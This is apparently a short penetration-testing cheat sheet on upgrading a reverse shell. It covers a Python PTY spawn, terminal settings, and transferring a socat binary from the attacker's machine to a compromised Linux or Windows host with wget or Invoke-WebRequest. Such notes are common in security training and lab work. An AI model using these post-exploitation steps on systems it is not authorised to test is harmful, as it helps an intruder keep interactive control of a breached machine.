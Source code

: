 ### Python

1. Making the shell prettier (Cant use tab, arrows and Ctrl + C): `python -c 'import pty;pty.spawn("/bin/bash")'`
2. Get access to commands such as `clear`: `export TERM=xterm`
3. Background the shell: Ctrl + Z
4. Get a fully interactive shell and foreground the shell: `stty raw -echo; fg`
5. Type `reset` when the shell dies for visible input

### Socat

Description: Getting a Netcat shell than upgrading it to Socat shell, not useful for windows

1. Get a Netcat shell
2. Download [socat static compiled binary](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat?raw=true) to your local machine
3. Start a Python HTTP server: `sudo python3 -m http.server`
4. Use the Netcat shell to donload the file to target: `wget <LOCAL-IP>/socat -O /tmp/socat`
5. In windows: `Invoke-WebRequest -uri <LOCAL-IP>/socat.exe -outfile C:\\Windows\temp\socat.exe`

### stty

Description: Change your terminal tty size

1. Check the value of rows and columns in your own terminal: `stty -a`
2. Change the row size in the shell: `stty rows <number>`
3. Change the column size in the shell: `stty cols <number>`